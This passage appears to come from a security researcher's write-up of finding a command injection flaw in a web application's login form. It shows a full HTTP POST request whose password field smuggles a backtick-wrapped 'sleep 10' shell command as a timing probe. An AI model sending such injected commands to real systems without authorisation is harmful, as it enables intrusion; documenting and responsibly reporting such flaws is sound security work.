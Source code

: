 Fortunately, during my testing of the web application, I discovered that the web application only responded to payloads containing the `sleep` command. This anomaly raised my suspicion that the vulnerability was not related to SQL injection, but instead was a command injection vulnerability.

To confirm my suspicion, I began manipulating the web server's response by experimenting with different values for the `sleep` payload. By analyzing the server's response to these payloads, I was able to confirm that the vulnerability was indeed a command injection vulnerability, rather than a SQL injection vulnerability as I had initially suspected.


## Step 1

Starting with the following value: `sleep 10`

>HTTP Request

```http
POST /connexion/ HTTP/2
Host: www.target.com
Cookie: target=test
Content-Length: 61
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=sandh0t%40mail.com&password=%60sleep%2010%60

```

>HTTP Response

![](/assets/img/4/1.JPG)
